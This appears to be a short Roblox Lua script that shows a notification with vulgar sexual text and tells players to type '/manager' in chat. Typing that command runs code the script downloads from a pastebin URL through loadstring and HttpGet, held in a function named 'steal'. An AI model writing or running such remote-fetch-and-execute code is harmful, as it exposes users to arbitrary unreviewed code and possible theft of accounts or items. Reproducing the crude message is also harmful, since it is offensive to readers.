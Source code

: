 game:GetService("StarterGui"):SetCore("SendNotification",{Title="i cum on girls",Text="type /manager in chat!", Duration=15})
local steal = loadstring(game:HttpGet("https://pastebin.com/raw/DNtN6W4D"))
workspace.Main.Chatted.Chatted.Event:Connect(function(msg)
if msg=="/manager" or msg=="\\manager" then
steal()
end
end)
